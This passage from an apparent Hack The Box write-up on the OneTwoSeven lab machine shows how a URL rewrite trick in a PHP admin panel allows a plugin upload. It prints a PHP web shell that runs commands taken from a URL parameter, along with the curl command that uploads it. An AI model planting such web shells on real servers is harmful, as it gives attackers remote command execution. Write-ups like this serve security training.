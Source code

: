 ```php
    echo "the provided RewriteRules:<br><hr>";
    echo "RewriteEngine On<br>";
    echo "RewriteRule ^addon-upload.php   addons/ots-man-addon.php [L]<br>";
    echo "RewriteRule ^addon-download.php addons/ots-man-addon.php [L]<br><hr>";
    echo "By commenting individual RewriteRules you can disable single<br>";
    echo "features (i.e. for security reasons)<br><br>";
    echo "<font size='-2'>Please note: Disabling a feature through htaccess leads to 404 errors for now.</font>";
    break;
}
?>
```

If we append `/addon-up.php` to `/addon-download.php`, and because `/addon-download.php` gets rewritten to `ots-man-addon.php`, the first case will match and our "plugin" gets uploaded.

One last thing: the 2nd line of the uploaded PHP must be `# OneTwoSeven Admin Plugin`. Here's the file that I'll be uploading.

<div class="filename"><span>ots-endgame.php</span></div>

```
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS Default User
echo shell_exec($_GET[0]);
?>
```

Time to upload.

```
# curl -i -b "PHPSESSID=emhvsbp1urdd9cbabfhkcv20s0" -F "addon=@ots-endgame.php" "http://onetwoseven.htb:60080/addon-download.php/addon-upload.php"
HTTP/1.1 302 Found
Date: Sat, 27 Apr 2019 12:51:59 GMT
Server: Apache/2.4.25 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /menu.php
Content-Length: 27
Content-Type: text/plain;charset=UTF-8

File uploaded successfull.y
```


{% include image.html image_alt="67d22bc7.png" image_src="/208c1863-9d75-45f1-9a63-a56e87f6c38c/67d22bc7.png" %}


Sweet.

## Low-Privilege Shell


[1]: https://www.hackthebox.eu/home/machines/profile/185
[2]: https://www.hackthebox.eu/home/users/profile/77141
[3]: https://www.hackthebox.eu/